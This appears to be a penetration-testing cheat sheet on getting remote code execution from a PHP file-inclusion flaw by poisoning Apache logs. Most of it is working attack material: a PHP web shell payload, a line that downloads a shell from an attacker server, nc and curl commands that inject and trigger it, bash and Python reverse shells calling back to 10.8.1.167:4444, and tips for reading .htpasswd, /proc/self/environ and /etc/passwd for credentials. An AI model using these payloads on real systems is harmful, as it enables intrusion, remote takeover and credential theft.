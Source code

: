 For PHP RCE, you'll want to use a technique called `log poisoning`.

##### Required
Access to files
A log file (Usually `/var/log/apache2/access.log`)

##### Important
First, run 
```
../../../proc/self/environ
```
to get general information.
If RCE doesn't work, try RFI (other vhosts on machine)
If there is HTTP-BASIC-AUTH involved, check the `.htpasswd` file, it often contains credentials. (usually `/etc/apache2/.htpasswd`)


Payload: 
```
<?php system($_GET['test']);?>

// Get PHP shell (named shell.php) from python3 server (saves as shell.php)
<?php file_put_contents('shell.php', file_get_contents('http://IP:PORT/shell.php'))?>
```

First, you need to get the payload in the log system:

```
nc IP PORT
GET /'<?php system($_GET['rce']); ?>'
```

If this does not work, set your User-Agent as the payload.

To use the payload, send a request to the log file with the command in your payload:
```
// Template
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=PAYLOAD

// Examples
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=sh -i >& /dev/tcp/10.8.1.167/4444 0>&1
curl http://IP/vulnerable.php?file=LOG_FILE_LOCATION&CMD=export RHOST="10.8.1.167";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

### Note
Importanot note:
If you can read `/etc/passwd`, go through every user's home directory for the `.bashrc`


##### Mongo
Target file: `/var/www/dev/index.js`